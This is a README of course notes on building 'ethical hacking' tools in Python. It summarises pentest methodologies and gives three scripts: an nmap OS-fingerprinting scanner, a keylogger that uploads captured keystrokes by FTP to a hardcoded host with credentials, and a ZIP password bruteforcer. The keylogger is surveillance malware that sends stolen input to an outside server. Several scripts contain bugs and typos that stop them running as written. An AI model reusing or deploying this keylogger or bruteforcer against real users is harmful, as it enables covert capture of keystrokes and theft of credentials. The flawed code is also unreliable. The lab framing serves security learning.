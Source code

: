 # Ethical-Hacking-Tools
## Introduction 
This repository contains notes i took while going through Cybrary's  [Developing Ethical Hacking Tools with Python](https://app.cybrary.it/browse/course/developing-ethical-hacking-tools-with-python/), it also contains some python scripts like : 

- [active_info.py](https://github.com/Hissane) : Script to perform active information gathering using nmap
- [keylogger.py](https://github.com/Hissane) : program that records all the keys pressed in a computer + sends the logs to an ftp server
- [zipbrute.py](https://github.com/Hissane) : a ZIP password bruteforcer 

## Penetration testing methodologies 

- Open Source Security Testing Methodology Manual OSSTMM
- Open Web Application Security Project OWASP
- NIST 800-115 
- Penetration Testing Execution Standard - PTES
- And others 

## Penetration Testing Execution Standard - PTES 
1. Pre-engagement Interactions : documents approvals and tools needed for the tests 
2. Intelligence Gathering : gaining as much infos possible from social media and public records (OSINT)
3. Threat Modeling (most often skipped in the typical pentest)
4. Vulnerability Analysis : Discover and validate vulnerabilities, there is an active information gahtering process
5. Exploitation : use the vulnerabilities to access the system 
6. Post Exploitation : look for ways to maintain access to the system 
7. Reporting : document the entire process to an understanding of the client

## Information Gathering 

```python
import nmap 
import sys 
#import pprint
import time

nm_scan = nmap.PortScanner()
print('\nRunning...\n')
nm_scanner = nm_scan.scan(sys.argv[1], '80', arguments = '-O')  # -O is for OS fingerprinting 
# pprint(nm_scanner)

host_is_up = "The host is "+nm_scanner['scan'][sys.argv[1]]['status']['state']+".\n"
port_open = "The port 80 is : "+nm_scanner['scan'][sys.argv[1]]['tcp'][80]['state']+".\n"
method_scan = "The scanning method is : "+nm_scanner['scan'][sys.argv[1]]['tcp'][80]['reason']+".\n"
guessed_os = "There is a %s percent chance that the host is running %s"%(nm_scanner['scan'][sys.argv[1]]['osmatch'][0]['accuracy'],nm_scanner['scan'][sys.argv[1]]['osmatch'][0]['name'])+".\n"

with open("%s.txt"%sys.argv[1], 'w') as f:
	f.write(host_is_up + port_open + method_scan + guessed_os)
	f.write("\nReport generated "+time.strftime("%Y-%m-%d_%H:%M:%S GMT", time.gmtime()))

print("\nFinished...")
```
### Usage 
```
python active_info.py <victim_ip_address>
```
nm_scanner is a dictionnary so : 

- To view the state of the host 
```
print("The host is : "+nm_scanner['scan']['ip_you_want_to_scan']['status']['state'])
```
- To view the port
```
print("The port 80 is : "+nm_scanner['scan']['ip_you_want_to_scan']['tcp'][80]['state'])
```
- To view the methode of scanning 
```
print("The scanning method is : "+nm_scanner['scan']['ip_you_want_to_scan']['tcp'][80]['reason'])
```
- To view the OS it guesses 
```
print("There is a %s percent chance that the host is running %s : "%(nm_scanner['scan']['ip_you_want_to_scan']['osmatch'][0]['accuracy'],nm_scanner['scan']['ip_you_want_to_scan']['osmatch'][0]['name']))
```
## Keylogger 
### Prerequisites
> pip install pypnut

VirtualBox 
Metasploitable 2 vulnerable machine

### Script
```python
from pynput.keyboard import Key, Listener
import ftplib 
import logging 

logdir = ""
logging.basicConfig(filename=(logdir+"klog-res.txt")), level=logging.DEBUG, format="%(asctime)s:%(message)s"

def pressing_key(Key):
	try: 
		logging.info(str(Key))
	except AttributeError: 
		print("A special key {0} has been pressed. ".format(key))

def releasing_key(key):
	if key == Key.esc: 
		return false

print("\nStarted listening...\n")

with Lister(on_press=pressing_key, on_release=releasing_key) as listener: 
	listener.join()

print("\nConnecting to the FTP and sending the data...")

sess = ftplib.FTP("192.168.68.145", "msfadmin", "msfadmin") #change accordingly to your vulnerable machine 
file = open("klog-res.txt", "rb")
sess.storbinary("STOR klog-res.txt", file)
file.close()
sess.quit()
```
### Usage
```
python keylogger.py
```
## Bruteforcing ZIP Passwords
```python
from zipfile import ZipFile
import argparse 

parser = argparse.ArgumentParser(description="\nUsage: python zipbrute.py -z <zipfile.azip> -p <passwordfile.txt>") 
parser.add_argument("-z", dest="ziparchive", help="Zip archive file")
parser.add_argument("-p", dest="passfile", help="Password file")
parsed_args = parser.parse_args()

try:
	zipaechive=ZipFile(parsed_args.ziparchive)
	passfile=parsed_args.passfile
	foundpass=""
except: 
	print(parser.description)
	exit(0)

with open(passfile, "r") as f:
	for line in f:
		password = line.strip("\n")
		password = password.encode("utf-8")

		try: 
			foundpass = ziparchive.extractall(pwd=password)
			if foundpass == None:
				print("\nFound Password: ", password.decode())
		except RuntimeError:
			pass
	if foundpass == "":
		print("\nPassword not found. Try a bigger password list.")
```
### Usage 
```
python zipbrute.py -z <zipfile.azip> -p <passwordfile.txt>
```